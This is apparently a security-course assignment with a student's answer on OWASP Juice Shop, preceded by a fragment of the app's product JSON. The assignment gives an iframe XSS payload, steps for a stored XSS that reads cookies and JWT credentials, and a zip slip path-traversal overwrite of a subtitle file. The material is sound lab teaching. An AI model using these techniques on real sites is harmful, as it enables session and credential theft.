event!","price":1e-20,"deluxePrice":1e-20,"image":"20th.jpeg","createdAt":"2026-02-15 16:21:37.175 +00:00","updatedAt":"2026-02-15 16:21:37.175 +00:00","deletedAt":"2026-02-15 16:21:38.468 +00:00"},{"id":45,"name":"OWASP Juice Shop LEGO™ Tower","description":"Want to host a Juice Shop CTF in style? Build <a href=\"https://github.com/OWASP/owasp-swag/blob/master/projects/juice-shop/lego/OWASP%20JuiceShop%20Pi-server%201.2.pdf\" target=\"_blank\">your own LEGO™ tower</a> which holds four Raspberry Pi 4 models with PoE HAT modules <a href=\"https://github.com/juice-shop/multi-juicer/blob/main/guides/raspberry-pi/raspberry-pi.md\" target=\"_blank\">running a MultiJuicer Kubernetes cluster</a>! Wire to a switch and connect to your network to have an out-of-the-box ready CTF up in no time!","price":799,"deluxePrice":799,"image":"lego_case.jpg","createdAt":"2026-02-15 16:21:37.175 +00:00","updatedAt":"2026-02-15 16:21:37.175 +00:00","deletedAt":null},{"id":46,"name":"DSOMM & Juice Shop User Day Ticket","description":"You are going to the OWASP Global AppSec San Francisco 2024? <a href=\"https://www.eventbrite.com/e/owasp-global-appsec-san-francisco-2024-tickets-723699172707\" target=\"_blank\">Get a ticket*</a> for this amazing side event as well! Check the juice-packed agenda <a href=\"https://owasp.org/www-project-juice-shop/#div-userday2024\" target=\"_blank\">here</a> for all the details!<br /><br />*=scroll down to <strong>Elevate: DSOMM and Juice Shop User Day (Sept. 25)</strong> after clicking <em>Get Tickets</em> on Eventbrite. Ticket price set to only covers fees for room, AV, and catering throughout the day.","price":55.2,"deluxePrice":55.2,"image":"user_day_ticket.png","createdAt":"2026-02-15 16:21:37.176 +00:00","updatedAt":"2026-02-15 16:21:37.176 +00:00","deletedAt":"2026-02-15 16:21:38.535 +00:00"}]}
# Task 3: Advanced Cross-site Scripting (XSS) 

> Return this task to GitHub

> [!Important]
> We continue with the Juice Shop on this task.
> Restart Docker container here with an extra paramater `-e NODE_ENV=unsafe` to allow arbitrary file write!

```sh
docker run --rm -p 3000:3000 -e NODE_ENV=unsafe bkimminich/juice-shop
```

Cross-site Scripting (XSS) is yet another input-related problem, usually related to the lack of input sanitisation.
Take a look at some of its definitions [^8] [^13]. 

In practice, untrusted input data is reflected or directed to the browser in its original format.
If the context is the browser's rendering context, the browser might render the HTML from the input as it is supposed to, or even run JavaScript.


As a simple demonstration, then you can just put the following input to the Juice Shop's search field:

```html
<iframe src="javascript:alert(`xss`)">
```

That XSS is not persistent, as it just reflects the used search parameter.

XSS can be very dangerous as it can be used to get full control of the current website. 
However, for example, the above XSS uses `iframe` as a base to bypass limitations, and it restricts access for the parent window object by default, as the script is not coming from the same origin.

This limits a bit of what we can do, and we want to do something more, by combining multiple vulnerabilities!


Juice Shop has released its new marketing video at http://localhost:3000/promotion. Viewing the page source or inspecting the traffic with Burp Suite shows you a couple of things:

  1. The video is loaded from http://localhost:3000/video.
  2. Subtitles are embedded on the page itself and they are in WebVTT format.
  3. Subtitles are enclosed in a `<script>` tag.


If you further inspect the traffic with Burp Suite, then you will notice that there is `Content-Location` header on the video's responses, which points to `/assets/` directory with a filename.
If you take this whole path and append it to `localhost:3000`, you will find out that it also loads the video!
If you change the file extension to `.vtt`, you get the subtitles as well, the same subtitles that were embedded in the `<script>` tag.


Would it be possible to modify this subtitle file?

As it happens, Juice Shop has an arbitrary [file upload vulnerability](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_overwrite_the_legal_information_file).
It includes CWE-22 aka Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') [^14].
Vulnerability is better known as [Zip Slip](https://security.snyk.io/research/zip-slip-vulnerability).


Your task is to replace this subtitle file so that when the user accesses the promotional page, it loads the script content, runs it and modifies the webpage as follows:

1. Use JavaScript to read the cookies of the currently authenticated user
2. Get the authentication token (JWT) from that cookie
3. Parse the JWT token with plain JavaScript to get the current user email *and* hashed password
4. Replace the promotional element with a new element with the header title "This is Mallory's web page", and show the current user information (email + hashed password)
5. Also, show the profile picture related to that cookie's user.


> [!Tip]
> Use Juice Shop's challenge solutions as help on making this task.
> Check [here](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_embed_an_xss_payload_into_our_promo_video) about XSS and video.
> Additionally, check [here](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_overwrite_the_legal_information_file) for file upload vulneralibity.


> [!Tip]
> Go to your's browser's developer tools, and try your script (or it's parts) there in console before actually using it as XSS. E.g. just run `document.cookie` to print cookie data.


> As a mark of completing this task, return all the source code you needed for doing the above, and `zip` file, which uses the path travelsar vulneralibity. Describe shortly what you needed to do. Also, *take a screenshot* from the fresh new promotion page, which shows the credentials of the currently logged user and profile picture.

I used a zip slip attack by uploading a .zip file containing a relative path (../../frontend/dist/frontend/assets/public/videos/owasp_promo.vtt). Because the Docker container was running in unsafe mode, the server overwrote the original promotional subtitles. Since the application reflects these subtitles a <script> tag, it triggered a Stored XSS attack.
The scripts are in zip.py and the final_submission.zip is the zip file

[^1]: [Software bug](https://en.wikipedia.org/wiki/Software_bug)
[^2]: [Common Weakness Enumeration (CWE)](https://cwe.mitre.org)
[^3]: [2022 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2022/2022_cwe_top25.html)
[^4]: [2023 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2023/2023_top25_list.html)
[^5]: [2023 CWE Top 10 KEV Weaknesses List Insights](https://cwe.mitre.org/top25/archive/2023/2023_kev_insights.html#)
[^6]: [Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
[^7]: [Email Address Regular Expression That 99.99% Works.  Disagree?](https://emailregex.com)
[^8]: [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/)
[^9]: [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
[^10]: [CWE-787: Out-of-bounds Write](https://cwe.mitre.org/data/definitions/787.html)
[^11]: [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
[^12]: [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
[^13]: [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
[^14]: [CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
[^15]: [CWE-707: Improper Neutralization](https://cwe.mitre.org/data/definitions/707.html)